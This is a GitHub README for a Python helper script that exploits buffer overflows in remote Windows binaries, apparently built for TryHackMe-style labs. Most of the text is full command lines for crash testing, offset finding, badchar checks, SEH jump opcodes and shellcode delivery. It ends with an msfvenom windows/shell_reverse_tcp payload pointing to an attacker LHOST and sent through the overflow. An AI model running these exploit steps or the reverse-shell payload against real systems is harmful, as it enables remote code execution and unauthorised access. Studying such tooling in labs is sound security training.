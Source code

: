 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Writes hex value to buffer offset and additional content before and/or after the offset content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=90909090 --after=9090
```

write - Writes badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=badchar --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=badchar --exclude=000a
```

write - Sends malicious shell code (hex string file) via buffer overflow
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=shellcode --shellcode=opencalc --nops=10
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=shellcode --shellcode=opencalc
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Select script mode (test|cyclic|write|checkoffset).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --interact	: Interact with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --before|after	: Writes additional content (hex string) before and/or after the offset content.
  * If content is 'badchar', content will be a generated badchar list. Used for bad char testing.
  * If content is 'shellcode', --shellcode parameter will be expected.
  * Other content will be considered as big endian (default) or little endian (will be reversed). Same as --hexcontent.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --shellcode	: Hex shell code file generated using msfvenom. 
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nopsb|nopsa	: Amount of nops to add before and/or after the additional write content (be if badchars, shellcode or simple hexstring). Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.


## Vanilla Buffer Overflow example

[TryHackMe - Brainstorm - Write-up](https://github.com/isabellecda/writeups/tree/main/TryHackMe/Brainstorm)

## SEH Overwrite example

1. Overwrite SEH chain
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

2. Identify SEH offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

3. Small jump (90EB0890) to tail content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301
```

4. Long jump to head content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4
```

5. Badchar testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=5048 --buffsize=4096 --buffhead='chk2 /.:/' --offset=3391 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=badchar --nopsb=4 --exclude=00 -v
```

6. Exploit
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=shellcode --shellcode=reverse --nopsb=20 -v
```

## Egg Hunting example

TODO
